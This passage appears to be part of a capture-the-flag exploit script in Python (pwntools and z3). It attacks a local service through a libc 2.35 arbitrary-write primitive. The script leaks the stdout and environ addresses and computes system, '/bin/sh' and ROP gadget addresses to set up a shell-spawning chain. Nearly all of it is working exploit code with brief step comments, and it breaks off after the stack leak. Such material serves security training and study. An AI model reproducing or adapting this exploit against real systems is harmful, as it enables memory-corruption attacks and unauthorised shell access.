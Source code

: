 ```python
        s.add(x != result)
        s.check()
        result = s.model().eval(x).as_long()
        pr -= 1
    return result

p = remote('localhost', 15353)
sleep(1)
#get remote mmap, libc address
while True:
    line = p.recvline()
    if b'libc.so.6' in line:
        libc_start = int(line[:-1].split(b'-')[0], 16)
        break
while True:
    line = p.recvline()
    if b'ld-linux-x86-64.so.2' in line:
        p.recvline()
        p.recvline()
        line = p.recvline()
        mem_start = int(line[:-1].split(b'-')[0], 16)
        break
p.close()
while True:
    try:
        unsafe_state = 0x21a860
        p = remote('localhost', 15252)
        #Step 1. libc leak
        #set buf->state to stdout
        stdout_addr = 0x404020
        aaw(((mem_start - (libc_start + unsafe_state + 0x10))// 8), stdout_addr)
        #reverse stdout lower 4-bytes
        stdout = leak()
        #set buf->state to stdout + 4
        aaw(((mem_start - (libc_start + unsafe_state + 0x10))// 8), stdout_addr + 4)
        #reverse stdout higher 2-bytes
        stdout += leak() << 32
        #debugging
        log.info('stdout : ' + hex(stdout))
        libc_elf = ELF('./libc-2.35.so')
        libc = stdout - libc_elf.symbols['_IO_2_1_stdout_']
        system = libc + libc_elf.symbols['system']
        binsh = libc + 0x1d8678
        pop_rdi = libc + 0x1bbea1
        add_rsp = libc + 0x1127a7
        ret = libc + 0x1b4b28
        exit = libc + libc_elf.symbols['exit']
        mem = libc + (mem_start - libc_start)
        environ = libc + libc_elf.symbols['environ']
        log.info('environ : ' + hex(environ))
        log.info('libc : ' + hex(libc))
        log.info('mem : ' + hex(mem))
        #Step 2. environ leak
        #because enviroion pointer ends with NULL, we leak environ + 1 address.
        aaw((mem_start - (libc_start + unsafe_state + 0x10))// 8, environ + 1)
        #stack address is almost lacted at the high address. If reverse z3 at one time, it returns lower address.
        stack = leak(pr = 2) << 8
        stack += 0x7f0000000000
        #get inveron lowest byte
        aaw((mem_start - (libc_start + unsafe_state + 0x10))// 8, environ)
        stack += leak() & 0xFF
        org_environ = stack
```